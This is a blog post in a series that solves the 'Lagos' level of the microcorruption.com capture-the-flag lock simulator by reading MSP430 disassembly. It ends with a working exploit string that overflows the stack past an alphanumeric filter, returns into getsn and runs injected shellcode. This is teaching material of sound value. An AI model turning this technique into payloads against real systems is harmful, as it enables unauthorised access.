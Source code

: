 ```yaml
---
layout: post
title: 'Fun with Assembly 17: Beating constraints'
date: 2015-09-03
status: publish
type: post
published: true
author: Hywel Carver
---
```

This is the seventeenth in a series. You might want to read the [previous post]({% post_url 2015-09-02-fun-with-assembly-16 %}) before reading this.

This post is based on the Lagos level on [microcorruption.com](http://microcorruption.com). Like last time, we’re trying to find an input to open a lock without knowing the correct password, using knowledge of assembly language.

# First steps

The introduction to this level tells us that the passwords have to be alphanumeric which is going to mean bytes between `0x30-0x39`, `0x41-0x5a` and `0x61-0x7a`. Let's look at the `login` function.

    455e <login>
    455e:  0b12           push  r11
    4560:  3150 f0ff      add   #0xfff0, sp

Add 16 bytes to the stack.

    4564:  3f40 7044      mov   #0x4470 "Enter the password to continue.", r15
    4568:  b012 6046      call  #0x4660 <puts>
    456c:  3f40 9044      mov   #0x4490 "Remember: passwords are between 8 and 16 characters.", r15
    4570:  b012 6046      call  #0x4660 <puts>
    4574:  3f40 c544      mov   #0x44c5 "Due to some users abusing our login system, we have", r15
    4578:  b012 6046      call  #0x4660 <puts>
    457c:  3f40 f944      mov   #0x44f9 "restricted passwords to only alphanumeric characters.", r15
    4580:  b012 6046      call  #0x4660 <puts>

Print out some messages.

    4584:  3e40 0002      mov   #0x200, r14
    4588:  3f40 0024      mov   #0x2400, r15
    458c:  b012 5046      call  #0x4650 <getsn>

Get up to 512 (`0x200`) bytes of input at `0x2400`.

    4590:  5f42 0024      mov.b &0x2400, r15
    4594:  0e43           clr   r14
    4596:  7c40 0900      mov.b #0x9, r12
    459a:  7d40 1900      mov.b #0x19, r13
    459e:  073c           jmp   #0x45ae <login+0x50>

Set things up for the next block of iteration... `r14` will end up being the length of the string.

    45a0:  0b41           mov   sp, r11
    45a2:  0b5e           add   r14, r11
    45a4:  cb4f 0000      mov.b r15, 0x0(r11)
    45a8:  5f4e 0024      mov.b 0x2400(r14), r15
    45ac:  1e53           inc   r14

`r11` points to the next byte to save to on the stack, move the next byte from the input there. Then get the next byte ready for the next iteration.

    45ae:  4b4f           mov.b r15, r11
    45b0:  7b50 d0ff      add.b #0xffd0, r11
    45b4:  4c9b           cmp.b r11, r12
    45b6:  f42f           jc    #0x45a0 <login+0x42>

If (the next byte - `0x30`) <= 9 and >= 0 (to avoid overflow), continue writing it. (i.e. the byte is `>= 0x30` and `<= 0x39`)

    45b8:  7b50 efff      add.b #0xffef, r11
    45bc:  4d9b           cmp.b r11, r13
    45be:  f02f           jc    #0x45a0 <login+0x42>

If (the next byte - `0x41`) <= 19 and >= 0, continue writing it. (i.e. the byte is `>= 0x41` and `<= 0x5a`).

    45c0:  7b50 e0ff      add.b #0xffe0, r11
    45c4:  4d9b           cmp.b r11, r13
    45c6:  ec2f           jc    #0x45a0 <login+0x42>

And if (the next byte - `0x61`) <= 19 and >= 0, continue writing it. (i.e. the byte is `>= 0x61` and `<=0x7a`).

So the whole password will be written onto the stack, right up until the first character that isn't alphanumeric.

    45c8:  c143 0000      mov.b #0x0, 0x0(sp)

Make the first byte on the stack `0x0`, because the first character in the input actually gets written twice (because `0x459e` jumps to `0x45ae` when it should probably be jumping to `0x45ac`, to increment `r14` ready for the next iteration).

    45cc:  3d40 0002      mov   #0x200, r13
    45d0:  0e43           clr   r14
    45d2:  3f40 0024      mov   #0x2400, r15
    45d6:  b012 8c46      call  #0x468c <memset>

Set all the bytes that might have been touched by the input directly (`0x200` bytes from `0x2400` onwards) to `0x0`.

    45da:  0f41           mov   sp, r15
    45dc:  b012 4644      call  #0x4446 <conditional_unlock_door>
    45e0:  0f93           tst   r15
    45e2:  0324           jz    #0x45ea <login+0x8c>
    45e4:  3f40 2f45      mov   #0x452f "Access granted.", r15
    45e8:  023c           jmp   #0x45ee <login+0x90>
    45ea:  3f40 3f45      mov   #0x453f "That password is not correct.", r15
    45ee:  b012 6046      call  #0x4660 <puts>

Send the password to the door lock and tell the user whether it was right or not.

    45f2:  3150 1000      add   #0x10, sp
    45f6:  3b41           pop   r11
    45f8:  3041           ret

Clear up the stack.

# Developing an exploit

We have a lot of bytes of input we can use, and we can clearly overflow the stack. However we can only use bytes between `0x30-0x39`, `0x41-0x5a` and `0x61-0x7a`.

For the door to open, we eventually need to get to calling `0x10` with the right value in the status register (`sr`). `0x10` is going to be impossible for us to pass through the password string though. However, it is used by the `INT` function, which is at `0x45fc`. We can't pass both of those bytes through the password though. However, there are several instructions where the `INT` function is called, which we could return directly onto. But then we have to work out how to get the right arguments there.

This is looking pretty complicated. Looking at the other functions we have, we could drop into `getsn` - that way we might be able to get more input, that isn't constrained to be alphanumeric.

If we dropped into `0x4654`, the next 3 byte-pairs on the stack would be the address to write to, the number of bytes to write, and then the address `getsn` will return to. Let's choose the address to write to to be on the stack, and let's then return to the same address. For example, `0x4430` for all 3 will write up to `0x4430` bytes and then execute them.

With some spacer bytes to get beyond the allocated stack input: `4141414141414141414141414141414141` + `5446` to return into `getsn` + `304430443044` to get the input and run it.

When prompted for more input, we just have to enter the code we want to run.

    push #0x7f
    call  #0x45fc

assembles to `30127f00b012fc45`. so that's what we enter.

# The door springs open

This is a fun exploit. As usual, the pattern is to take the limitation (of alphanumeric-only input) and then find a way to get around it. Here, that means using `getsn` to allow for unconstrained input.